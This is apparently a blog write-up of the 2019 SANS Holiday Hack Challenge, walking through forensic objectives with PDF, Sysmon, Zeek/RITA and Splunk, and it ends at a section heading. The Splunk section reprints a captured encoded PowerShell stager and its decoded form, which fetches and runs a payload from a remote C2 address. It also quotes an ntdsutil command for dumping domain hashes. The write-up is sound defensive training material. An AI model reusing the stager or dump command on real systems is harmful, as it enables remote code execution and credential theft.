


Over the holidays I managed to complete the 2019 SANS Holiday Hack Challenge: KringleCon 2: Turtle Doves. I saw this last year, however, I never had time to actually jump in and see what it's all about.

I must say, after spending a few days working my way around and tackling the objectives, I was blown away by the amount of effort that the [SANS](https://www.sans.org) and [CounterHack](https://www.counterhackchallenges.com) crew put into getting this setup.

In a nutshell, you create a character and are free to roam around KringleCon. 

You main goal is to unravel who has set out to destroy Christmas this year by completing 12 main objectives which range from log analysis tasks using different tools including Splunk, web application challenges, working with machine learning to reverse engineering a small encryption tool used within ELF University.

Enjoy my writeup, I look forward to seeing how others went about solving the objectives.

My key takeaways:

* Struggling with some of the objectives really boosted my python knowledge.
* It was key to breakdown larger objectives into much small ones, especially around coding and with many things, start very small then work up from that.


# KringleCon 2019 Event Summary

A breakdown of the objectives:

| Event                           | Descrption                                                   |
| ------------------------------- | ------------------------------------------------------------ |
| Threatening Letter Discovered   | A threatening letter was sent to ELFU demanding cheer be spread to other holidays other than just Christmas by "A Concerned and Aggreived Character" |
| Password Attacks Detected       | A password spray attack was detected against the ELFU domain. A successful compromise of the `supatree` domain account was confirmed |
| Domain Hashes Dumped            | Malicious actor had used `ntdsutil.exe` to obtain password hashes. |
| C2C Traffic Detected            | Analysing IDS logs with Rita, a compromised host was detected exhibiting beaconing activity |
| Sensitive Documents Exfiltrated | Splunk was used to examine the C2C host, it was discovered that senstive documents were exfiltrated to a VPS system hosted at Vultr. The initial vector of compromise was determined to be a spear phishing attacking where the victim had executed a malicious macro. |
| Accessing Steam Tunnels         | Optical Key Decoding was used to cut a duplicate key from Krumpus to gain access to the steam tunnels. |
| Bypassing Frido Sleigh CAPTCHA  | Google's Tensorflow machine learning framework was used to break a CAPTCHA control to help Krampus beat the Frido Sleigh Contest. |
| Evidence Retrieved              | Scraps of paper were restrived from the Student Portal website using a blind SQL injection vulnerability. We find out Santa's secret sleigh guidance system and that the threat actor has plans to poison its data to destory Christmas. |
| Encrypted Document Recovered    | Using some reverse engineering and Python we were able to determine the encryption algorithm and PRNG used within the `elfscrow.exe` tool. Given the date range the document was determined to be encrypted, we could brute force decrypt the document. The document was a manual for the "super-sled-o-matic" sleigh route finder. |
| Malicious Attacks Blocked       | Knowing the above, malicious attacks were detected and further bad IP addresses blocked on the sleigh route finder firewall to mitigate the attempts to poison the weather data and ruin Christmas. |

# 1.0 - Find the Turtle Doves

Exploring this years KringleCon, the two doves can be found inside the student union near the fire place


Answer: **Found inside the student union near the fire place.**

# 2.0 - Unredact Threatening Document

Here we have our first mission, find the letter and then unredact the hidden contents.

This can be found in upper left corner of the Quad.

> Someone sent a threatening letter to Elf University. What is the first word in ALL CAPS in the subject line of the letter? Please find the letter in the Quad.

**LetterToElfPersonnel.pdf**


Using `pdf2txt` that is installed as part of the `python3-pdfminer` package, we can render the text version of this PDF and view the contents behind the image objects.

```console
root@sr388:sans-holiday-hack-2019# pdf2txt LetterToElfUPersonnel.pdf


Confidential

Date: February 28, 2019

To the Administration, Faculty, and Staff of Elf University
17 Christmas Tree Lane
North Pole

From: A Concerned and Aggrieved Character

Subject: DEMAND: Spread Holiday Cheer to Other Holidays and Mythical Characters… OR
ELSE!


Attention All Elf University Personnel,

It remains a constant source of frustration that Elf University and the entire operation at the
North Pole focuses exclusively on Mr. S. Claus and his year-end holiday spree.  We URGE
you to consider lending your considerable resources and expertise in providing merriment,
cheer, toys, candy, and much more to other holidays year-round, as well as to other mythical
characters.

For centuries, we have expressed our frustration at your lack of willingness to spread your
cheer beyond the inaptly-called “Holiday Season.”  There are many other perfectly fine
holidays and mythical characters that need your direct support year-round.

If you do not accede to our demands, we will be forced to take matters into our own hands.
We do not make this threat lightly.  You have less than six months to act demonstrably.

Sincerely,

--A Concerned and Aggrieved Character


Confidential
```

Not so hard, let's enter in "DEMAND" and proceed to our next challenge.

Answer: **DEMAND**

# 3.0 - Windows Log Analysis: Evaluate Attack Outcome

> We're seeing attacks against the Elf U domain! Using [the event log data](https://downloads.elfu.org/Security.evtx.zip), identify the user account that the attacker compromised using a password spray attack. *Bushy Evergreen is hanging out in the train station and may be able to help you out.*

After obtaining the Windows Security event logs and opening them up with **Event Viewer** we can see there are around 4,833 security audit events logged.


Some things immediately stand out:

- The majority of events logged with the exception of the most recent few follow a sequence of `Event ID: 4648` followed by `Event ID: 4625`
- `Event ID:4648` logs a success audit for attempted login with supplied credentials, likely using script.
- `Event ID: 4625` is a failure audit for the preceeding attempted login request. It also specifies the `Logon Type = 3` which is a "Batch" login generally used for scheduled tasks.

Towards the most recent entries in the log we see the following:


- A successful credential validation audit entry for the account `supatree`
- We can also see this account has the `SeImpersonatePrivilege` which can be abused to gain SYSTEM

Given the short time frame between failed logon attempts and the successful login, it looks as though the `supatree` account was the one breached in the credential stuffing attack on Elf University.

The last audit entries show a login as the SYSTEM account, so it seems likely the `supatree` account has escelated privileges to SYSTEM.

Answer: **supatree**

# 4.0 - Windows Log Analysis: Determine Attacker Technique

> Using [these normalized Sysmon logs](https://downloads.elfu.org/sysmon-data.json.zip), identify the tool the attacker used to retrieve domain password hashes from the lsass.exe process. 

Using `jq` we can massage the `json` file and sort the unique counts for `process_name`:

```
root@sr388:sans-holiday-hack-2019# cat sysmon-data.json |jq '.[] | {process_name}' |sort |uniq -c
   2626 {
   2626 }
      7   "process_name": "cmd.exe"
   2388   "process_name": "net.exe"
      1   "process_name": "ntdsutil.exe"
     23   "process_name": "powershell.exe"
     12   "process_name": "services.exe"
      1   "process_name": "svchost.exe"
     12   "process_name": "sysmon64.exe"
    182   "process_name": "wevtutil.exe"
```

The Powershell commands seemed to be red herrings when investigating them. 

It turns out the command `ntdsutil.exe  \"ac i ntds\" ifm \"create full c:\\hive\" q q"` was used obtain the hashes by taking a full backup of `NTDS.dit` and registry hives from the domain controller.

https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/

https://isc.sans.edu/forums/diary/Cracking+AD+Domain+Passwords+Password+Assessments+Part+1+Collecting+Hashes/23383/

The 2,388 events show what appears to be the credential stuffing attack we seen earlier from the Windows Security event log. 

We can see thousands of `net use` commands scripted trying various passwords cycling over the user accounts.

We can also use `Event Query Language` which allows us to use SQL-like query syntax on `sysmon` and `Windows Events (.evtx)`. 

https://pen-testing.sans.org/blog/2019/12/10/eql-threat-hunting/

Here we extract and pull out the event details for any events where process_name is ntdsutil.exe:

```console
root@sr388:sans-holiday-hack-2019# pip3 install eql
root@sr388:sans-holiday-hack-2019# eql query -f sysmon-data.json "process where process_name == 'ntdsutil.exe'" |jq
{
  "command_line": "ntdsutil.exe  \"ac i ntds\" ifm \"create full c:\\hive\" q q",
  "event_type": "process",
  "logon_id": 999,
  "parent_process_name": "cmd.exe",
  "parent_process_path": "C:\\Windows\\System32\\cmd.exe",
  "pid": 3556,
  "ppid": 3440,
  "process_name": "ntdsutil.exe",
  "process_path": "C:\\Windows\\System32\\ntdsutil.exe",
  "subtype": "create",
  "timestamp": 132186398470300000,
  "unique_pid": "{7431d376-dee7-5dd3-0000-0010f0c44f00}",
  "unique_ppid": "{7431d376-dedb-5dd3-0000-001027be4f00}",
  "user": "NT AUTHORITY\\SYSTEM",
  "user_domain": "NT AUTHORITY",
  "user_name": "SYSTEM"
}
```

Answer: **ntdsutil**

# 5.0 - Network Log Analysis: Determine Compromised System

> The attacks don't stop! Can you help identify the IP address of the malware-infected system using these [Zeek logs](https://downloads.elfu.org/elfu-zeeklogs.zip)?

After downloading the Zeek logs which contained around 300MB worth of log data, [Rita](https://www.activecountermeasures.com/free-tools/rita/) was used to conduct analysis.

## Installing Rita

I opted to use the Docker container which can be setup as per below:

1. Make sure Docker is running, then pull the image

```
mkdir /Users/user/Downloads/CTF/; cd /Users/user/Downloads/CTF/
docker pull quay.io/activecm/rita
```

2. Copy over `rita` configuration file template

```
wget https://github.com/activecm/rita/raw/master/etc/rita.yaml -o config.yaml

# Edit config.yaml and uncomment InternalSubnets:
vi config.yaml
    InternalSubnets:
     - 10.0.0.0/8          # Private-Use Networks  RFC 1918
     - 172.16.0.0/12       # Private-Use Networks  RFC 1918
     - 192.168.0.0/16      # Private-Use Networks  RFC 1918
:wq
```

3. Create `docker-compose.yaml` file from template

```
wget https://github.com/activecm/rita/raw/master/docker-compose.yml
```

4. Edit `docker-compose.yaml` to setup our log and config volumes

```
vi docker-compose.yaml
# Setup our config and log volume mappings:
    volumes:
      - /Users/user/Downloads/CTF/config.yaml:/etc/rita/config.yaml:ro
      - /Users/user/Downloads/CTF/elfu-zeeklogs:/logs:ro
:wq
```

5. Start container with `docker-compose`

```
docker-compose run --rm rita import /logs elfu-zeeklogs
```

`rita` will now process all the Zeek logs within `/Users/user/Downloads/CTF/elfu-zeeklogs/`. After this is completed, your ready to start hunting!

## Using Rita

To interact with the container we can use `docker-compose run rita`:

```
% docker-compose run rita help            
Starting ctf_db_1 ... done
NAME:
   rita - Look for evil needles in big haystacks.

USAGE:
   rita [global options] command [command options] [arguments...]

VERSION:
   v3.1.1

COMMANDS:
     delete, delete-database  Delete imported database(s)
     import                   Import bro logs into a target database
     html-report              Create an html report for an analyzed database
     show-beacons             Print hosts which show signs of C2 software
     show-bl-hostnames        Print blacklisted hostnames which received connections
     show-bl-source-ips       Print blacklisted IPs which initiated connections
     show-bl-dest-ips         Print blacklisted IPs which received connections
     list, show-databases     Print the databases currently stored
     show-exploded-dns        Print dns analysis. Exposes covert dns channels
     show-long-connections    Print long connections and relevant information
     show-strobes             Print strobe information
     show-useragents          Print user agent information
     test-config              Check the configuration file for validity
     help, h                  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h     show help
   --version, -v  print the version
```

Let's generate a HTML report using `html-report`:

```
% docker-compose run rita html-report elfu-zeeklogs
Starting ctf_db_1 ... done
[-] Writing: /elfu-zeeklogs/elfu-zeeklogs
```

We can choose `ELFU`. Once selected you can navigate to any of the tabs on the top:

- Beacons
- Strobes
- DNS
- BL Source IP's
- BL Dest IP's
- BL Hostnames
- Long Connections
- User Agents


Looking at **Beacons** is what we are interested in. We can see the source IP `192.168.134.130` has almost a perfect beacon score of 0.998. This a mathematical calculation on the backend that attempts to identify beaconing activity and scores this from 0-1.

We also note the connections count at 7660. Another red flag indicating beacon activity.

Checking who owns the IP 144.202.46.214:

```
NetRange:       144.202.0.0 - 144.202.127.255
CIDR:           144.202.0.0/17
NetName:        CHOOP-1
NetHandle:      NET-144-202-0-0-1
Parent:         NET144 (NET-144-0-0-0-0)
NetType:        Direct Allocation
OriginAS:       
Organization:   Choopa, LLC (CHOOP-1)
RegDate:        2018-02-05
Updated:        2018-02-05
Ref:            https://rdap.arin.net/registry/ip/144.202.0.0
```

The IP sits on a range owned by Choopa. Navigating to their website tells us they are a cloud hosting/VPS provider. This is another red flag given the beaconing score plus the number of connections. The beacon interval range suggests this is beaconing every 10 seconds.

If this were a legit user connecting to a VPS, connecting every 10 seconds, 7660 times in the past 24 hours is highly unlikely. That'd be 21 hours straight of repeat connections!

Given the above, the host 192.168.134.130 is the likely culprit infected with malware.

Answer: **192.168.134.130**

# 6.0 - Splunk

> Access https://splunk.elfu.org/ as elf with password elfsocks. What was the message for Kent that the adversary embedded in this attack? The SOC folks at that link will help you along!


## Training Questions

### What is the short host name of Professor Banas' computer?

In the #ELFU SOC chat channel another analyst has mentioned the previous beaconing activity to IP address `144.202.46.214`. They also mention another host also communicating with that same destination IP address

Knowing this we can query Splunk based on this destination IP

```xquery
* dest_ip="144.202.46.214"
```

We can also see there is just the one source IP in these logs


Answer: **sweetums**

### What is the name of the sensitive file that was likely accessed and copied by the attacker? Please provide the fully qualified location of the file. (Example: C:\temp\report.pdf)

Splunk query used:

```xquery
* cbanas, santa
```

We can see this has picked up events from `WinEventLog:Microsoft-Windows-Powershell/Operational`

```console
08/25/2019 09:19:20 AM
LogName=Microsoft-Windows-PowerShell/Operational
SourceName=Microsoft-Windows-PowerShell
EventCode=4103
EventType=4
Type=Information
ComputerName=sweetums.elfu.org
User=NOT_TRANSLATED
Sid=S-1-5-21-1217370868-2414566453-2573080502-1004
SidType=0
TaskCategory=Executing Pipeline
OpCode=To be used when operation is just executing a method
RecordNumber=417616
Keywords=None
Message=CommandInvocation(Stop-AgentJob): "Stop-AgentJob"
CommandInvocation(Format-List): "Format-List"
CommandInvocation(Out-String): "Out-String"
ParameterBinding(Stop-AgentJob): name="JobName"; value="4VCUDA"
ParameterBinding(Format-List): name="InputObject"; value="C:\Users\cbanas\Documents\Naughty_and_Nice_2019_draft.txt:1:Carl, you know there's no one I trust more than you to help.  Can you have a look at this draft Naughty and Nice list for 2019 and let me know your thoughts? -Santa"
ParameterBinding(Out-String): name="InputObject"; value="Microsoft.PowerShell.Commands.Internal.Format.FormatStartData"
ParameterBinding(Out-String): name="InputObject"; value="Microsoft.PowerShell.Commands.Internal.Format.GroupStartData"
ParameterBinding(Out-String): name="InputObject"; value="Microsoft.PowerShell.Commands.Internal.Format.FormatEntryData"
ParameterBinding(Out-String): name="InputObject"; value="Microsoft.PowerShell.Commands.Internal.Format.GroupEndData"
ParameterBinding(Out-String): name="InputObject"; value="Microsoft.PowerShell.Commands.Internal.Format.FormatEndData"


Context:
        Severity = Informational
        Host Name = ConsoleHost
        Host Version = 5.1.17134.858
        Host ID = c44dfd99-a4ba-452c-bf0d-07206a97112b
        Host Application = powershell -noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBlAHIAUwBpAG8ATgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAcwBJAE8AbgAuAE0AQQBKAG8AcgAgAC0AZwBFACAAMwApAHsAJABHAFAARgA9AFsAUgBlAGYAXQAuAEEAUwBzAEUATQBCAGwAeQAuAEcARQBUAFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAEUAdABGAGkARQBgAEwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBGACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAGUAVABWAEEAbAB1AEUAKAAkAG4AVQBsAEwAKQA7AEkAZgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAHYAYQBsAD0AWwBDAE8ATABsAEUAYwBUAGkAbwBOAHMALgBHAEUAbgBlAFIAaQBDAC4ARABJAEMAVABJAG8ATgBBAHIAeQBbAFMAdAByAEkATgBHACwAUwB5AFMAVABFAG0ALgBPAGIAagBlAGMAVABdAF0AOgA6AE4AZQBXACgAKQA7ACQAdgBBAGwALgBBAGQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAdgBhAEwALgBBAEQAZAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJABWAEEAbAB9AEUAbABTAEUAewBbAFMAQwByAEkAUABUAEIAbABPAEMASwBdAC4AIgBHAEUAdABGAEkAZQBgAGwARAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBFAFQAVgBBAEwAVQBlACgAJABOAFUAbABsACwAKABOAEUAVwAtAE8AQgBqAEUAYwB0ACAAQwBvAGwAbABFAGMAVABpAG8AbgBzAC4ARwBFAG4AZQByAEkAQwAuAEgAYQBzAGgAUwBlAFQAWwBzAFQAcgBJAE4ARwBdACkAKQB9AFsAUgBFAGYAXQAuAEEAUwBTAEUATQBCAGwAWQAuAEcARQBUAFQAWQBQAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBFAFQARgBpAGUAbABEACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAEUAdABWAGEAbABVAGUAKAAkAE4AVQBsAEwALAAkAFQAcgB1AGUAKQB9ADsAfQA7AFsAUwB5AFMAdABlAE0ALgBOAGUAVAAuAFMARQBSAHYAaQBjAEUAUABvAEkAbgBUAE0AYQBOAGEARwBlAHIAXQA6ADoARQBYAFAAZQBjAFQAMQAwADAAQwBPAE4AdABJAG4AVQBlAD0AMAA7ACQAdwBjAD0ATgBFAHcALQBPAGIAagBFAEMAVAAgAFMAeQBzAFQARQBNAC4ATgBlAFQALgBXAGUAQgBDAEwAaQBFAE4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHcAQwAuAEgARQBBAEQARQByAFMALgBBAEQAZAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAFcAYwAuAFAAcgBvAFgAeQA9AFsAUwB5AFMAVABlAE0ALgBOAGUAdAAuAFcAZQBCAFIARQBRAHUARQBTAFQAXQA6ADoARABFAEYAYQBVAEwAVABXAGUAYgBQAHIAbwBYAHkAOwAkAFcAQwAuAFAAUgBvAFgAeQAuAEMAUgBFAEQAZQBuAFQASQBBAGwAcwAgAD0AIABbAFMAeQBTAFQARQBtAC4ATgBFAFQALgBDAFIAZQBkAGUATgBUAGkAQQBsAEMAQQBjAEgAZQBdADoAOgBEAGUARgBhAHUAbABUAE4AZQBUAHcATwBSAGsAQwBSAEUARABlAG4AVABpAEEATABTADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwB5AFMAVABFAE0ALgBUAGUAeAB0AC4ARQBuAGMATwBkAEkATgBHAF0AOgA6AEEAUwBDAEkASQAuAEcAZQBUAEIAWQB0AGUAUwAoACcAegBkACEAUABtAHcAMwBKAC8AcQBuAHUAVwBvAEgAWAB+AD0AZwAuAHsAPgBwACwARwBFAF0AOgB8ACMATQBSACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAFIARwBzADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAFUAbgB0AF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAEIAWABvAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQA0ADQALgAyADAAMgAuADQANgAuADIAMQA0ADoAOAAwADgAMAAnADsAJAB0AD0AJwAvAGEAZABtAGkAbgAvAGcAZQB0AC4AcABoAHAAJwA7ACQAVwBDAC4ASABFAEEARABFAHIAcwAuAEEAZABkACgAIgBDAG8AbwBrAGkAZQAiACwAIgBzAGUAcwBzAGkAbwBuAD0AcgBlAFQAOQBYAFEAQQBsADAARQBNAEoAbgB4AHUAawBFAFoAeQAvADcATQBTADcAMABYADQAPQAiACkAOwAkAEQAQQBUAGEAPQAkAFcAQwAuAEQAbwB3AG4AbABPAEEARABEAEEAdABBACgAJABzAEUAcgArACQAVAApADsAJABJAHYAPQAkAEQAYQB0AEEAWwAwAC4ALgAzAF0AOwAkAEQAYQB0AEEAPQAkAGQAQQBUAGEAWwA0AC4ALgAkAEQAYQB0AEEALgBsAEUATgBHAHQASABdADsALQBKAE8ASQBOAFsAQwBoAGEAUgBbAF0AXQAoACYAIAAkAFIAIAAkAEQAYQB0AEEAIAAoACQASQBWACsAJABLACkAKQB8AEkARQBYAA==
```

Decoding the Powershell command under the context section shows these Powershell commands were related to the beaconing to IP address **144.202.46.214**. Most likely instructing the agent to download the sensitive documents.

**Decoded Powershell:**

```powershell
LS;$Script:Proxy = $wc.Proxy;$K=[SySTEM.Text.EncOdING]::ASCII.GeTBYteS('zd!Pmw3J/qnuWoHX~=g.{>p,GE]:|#MR');$R={$D,$K=$ARGs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COUnt])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-BXoR$S[($S[$I]+$S[$H])%256]}};$ser='http://144.202.46.214:8080';$t='/admin/get.php';$WC.HEADErs.Add("Cookie","session=reT9XQAl0EMJnxukEZy/7MS70X4=");$DATa=$WC.DownlOADDAtA($sEr+$T);$Iv=$DatA[0..3];$DatA=$dATa[4..$DatA.lENGtH];-JOIN[ChaR[]](& $R $DatA ($IV+$K))|IEX% 
```

Answer: **C:\Users\cbanas\Documents\Naughty_and_Nice_2019_draft.txt**

### What is the fully-qualified domain name(FQDN) of the command and control(C2) server? (Example: badguy.baddies.com)

Query used:

```xquery
index=main sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventID=3 powershell
```

We narrow the source type down to `sysmon` events and look for `EventID=3` which looks for network connections and finally use a keyword `powershell` to show us all related Powershell network connections.

https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon

Answer: **144.202.46.214.vultr.com**

### What document is involved with launching the malicious PowerShell code? Please provide just the filename. (Example: results.txt)

First filter on the Powershell log source and in reverse order to get the earliest time

```xquery
index=main sourcetype="WinEventLog:Microsoft-Windows-Powershell/Operational" | reverse
```

Click on the first event, edit the `_time` field, and accept the range +/- 5 seconds.

Remove the `sourcetype` and `reverse` filters. What we are left with is a 5 seconds window around that first Powershell event was logged.

We can now narrow this down looking for event codes for Windows Process Execution such as `4688`.

We find two events and extract the following Process ID which is the first instance of the Powershell process.

| Process ID | PID  |
| ---------- | ---- |
| 0x16e8     | 5864 |

Now we can pivot from this point in time and view the all the log entries preceeding it.

We eventually see Microsoft Word was spawned and preceeding that a reference to a `.docm` macro enabled word document.

Answer : **19th Century Holiday Cheer Assignment.docm**

### How many unique email addresses were used to send Holiday Cheer essays to Professor Banas? Please provide the numeric value. (Example: 1)

ELF University is using `stoq` to extract metadata from all its emails and index this in Splunk.

We can query this data in Splunk by using the Statistics view and the following query:

```xquery
index=main sourcetype=stoq | table _time results{}.workers.smtp.to results{}.workers.smtp.from  results{}.workers.smtp.subject results{}.workers.smtp.body | stats count by results{}.workers.smtp.subject
```

Knowing the Subject: of the email that contained the malicious document, it was easy to see that 21 of these emails that has this subejct had been sent.


### What was the password for the zip archive that contained the suspicious file?

Modifying the above query and looking for any email that contained the keyword `*zip*` we can see the password was mentioned in the email body.

I did attempt to try and query "att" and "filetype" but didnt  get any results.

We also note the email came from **bradly.buttercups@eifu.org**  and proceeds to discuss about enabling content and editing to enable a macro to run.

Bradly has used Spear Phishing (MITRE ATT&CK Technique 1193) to gain a foothold on ELFU.

Query used:

```xquery
index=main sourcetype=stoq  "results{}.workers.smtp.body"="*zip*" | table _time results{}.workers.smtp.to results{}.workers.smtp.from  results{}.workers.smtp.subject results{}.workers.smtp.body
```

Results:


Answer: **123456789**

### What email address did the suspicious file come from?

As we seen above the email was sent from bradly.buttercups@eifu.org

Answer: **bradly.buttercups@eifu.org**

## What was the message for Kent that the adversary embedded in this attack?

Navigating through the metadata that `stoq` has stored we can find the actual malicious document `.docm` but also the additional components that make up modern office document (XML) including the `Core.xml` file:

